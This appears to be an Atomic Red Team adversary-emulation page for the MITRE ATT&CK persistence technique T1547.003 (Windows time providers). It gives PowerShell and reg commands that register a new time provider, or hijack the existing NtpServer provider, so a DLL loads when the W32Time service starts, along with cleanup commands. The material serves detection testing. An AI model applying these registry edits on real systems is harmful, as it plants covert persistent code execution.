 # T1547.003 - Time Providers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/003)
<blockquote>Adversaries may abuse time providers to execute DLLs when the system boots. The Windows Time service (W32Time) enables time synchronization across and within domains.(Citation: Microsoft W32Time Feb 2018) W32Time time providers are responsible for retrieving time stamps from hardware/network resources and outputting these values to other network clients.(Citation: Microsoft TimeProvider)

Time providers are implemented as dynamic-link libraries (DLLs) that are registered in the subkeys of  <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\</code>.(Citation: Microsoft TimeProvider) The time provider manager, directed by the service control manager, loads and starts time providers listed and enabled under this key at system startup and/or whenever parameters are changed.(Citation: Microsoft TimeProvider)

Adversaries may abuse this architecture to establish persistence, specifically by registering and enabling a malicious DLL as a time provider. Administrator privileges are required for time provider registration, though execution will run in context of the Local Service account.(Citation: Github W32Time Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new time provider](#atomic-test-1---create-a-new-time-provider)

- [Atomic Test #2 - Edit an existing time provider](#atomic-test-2---edit-an-existing-time-provider)


<br/>

## Atomic Test #1 - Create a new time provider
Establishes persistence by creating a new time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The new time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** df1efab7-bc6d-4b88-8be9-91f55ae017aa






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item $PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
<br/>

## Atomic Test #2 - Edit an existing time provider
Establishes persistence by editing the NtpServer time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** 29e0afca-8d1d-471a-8d34-25512fc48315






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item $PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Windows\SYSTEM32\w32time.DLL" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "0" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "0" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
